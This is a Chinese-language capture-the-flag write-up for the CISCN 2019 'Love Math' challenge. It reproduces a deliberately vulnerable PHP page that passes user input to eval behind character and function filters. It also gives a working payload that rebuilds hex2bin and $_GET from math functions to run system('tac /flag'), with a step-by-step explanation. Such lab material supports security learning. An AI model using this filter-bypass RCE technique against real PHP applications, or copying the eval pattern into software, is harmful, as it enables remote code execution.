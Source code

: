 # 原创
：  [CISCN 2019 初赛]Love Math

# [CISCN 2019 初赛]Love Math

#### [CISCN 2019 初赛]Love Math

## 考点

> 
RCE构造，白名单绕过


## 思路

> 
题目所给源码中过滤了很多内容，但是它允许我们通过PHP的数学函数来构造Payload


```
可以利用的数学函数
['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh']

```

> 
这里我们注意到两个函数



> 
Payload的限制
- payload长度不能超过80- payload中不能包含’ ‘, ‘\t’, ‘\r’, ‘\n’,’’’, ‘"’, ‘`’, ‘[’, ‘]’ 这些字符- payload中不能有不是$whitelist白名单里面的单词出现


> 
我们利用 base_convert()函数来构造 hex2bin()函数，再结合 dechex()函数来得到 hex2bin需要执行的十六进制字符串，从而构造出 `_GET`


## Payload

> 
题目源码：


```
&lt;?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) &gt;= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}

```

> 
构造Payload：<br/> `$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&amp;pi=system&amp;abs=tac /flag`


```
base_convert(37907361743,10,36) =&gt; "hex2bin"
dechex(1598506324) =&gt; "5f474554"
$pi=hex2bin("5f474554") =&gt; $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) =&gt; ($_GET){pi}($_GET){abs}  //{}可以代替[]

```
